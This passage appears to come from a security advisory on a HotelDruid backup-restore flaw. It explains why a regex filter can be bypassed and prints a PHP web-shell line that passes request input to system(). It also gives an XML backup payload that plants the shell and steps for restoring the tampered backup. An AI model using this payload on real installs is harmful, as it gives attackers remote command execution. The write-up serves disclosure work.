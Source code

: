 5. **`[^"]*`**  
   Matches any characters except quotes (the assigned value).

6. **`;`**  
   Matches the statement’s terminating semicolon.

### Why the Regex Is Bypassable

The filter is overly specific and only removes assignments in the exact pattern above. Attackers can evade it by introducing slight syntax changes, such as single quotes, ternary operators, or additional PHP constructs, preventing the a regex match and allowing malicious lines to remain intact.

#### Example Malicious Line

```php
$ic_aaa0 = "${isset($_REQUEST['mycoolshellcmd'])?system($_REQUEST['mycoolshellcmd']):''}";
```

Because it doesn’t strictly match ` = "[^"]*";`, it slips past the regex and is included on restore.

## Bypassing the Filter

Attackers can craft backup files containing PHP code that doesn’t fit the targeted pattern but is still potentially malicious. For example:

```xml
<fle>
<nomefle>./dati/dati_interconnessioni.php</nomefle>
<contenuto>
<?php
$ic_aaa1 = "aaa";
$ic_aaa0 = "${isset($_REQUEST['mycoolshellcmd'])?system($_REQUEST['mycoolshellcmd'])'ic_aaa1'}";
?>
</contenuto>
</fle>
```

Including this in a backup file instructs HotelDruid to embed a malicious payload into `dati_interconnessioni.php` on restore.

## Steps to Replicate

<img src="/images/research/hoteldruid/hoteldruid.png" alt="HotelDruid GUI" style="width: 140%;" />


1. **Download a Backup**  
   Use HotelDruid’s UI to create or download an existing backup file.

2. **Inject Malicious Code**  
   Modify the `<fle>` directive (above) in the backup file.

3. **Restore the Backup**  
   Upload the modified backup. The overly specific regex does not match and thus does not remove the malicious PHP code.
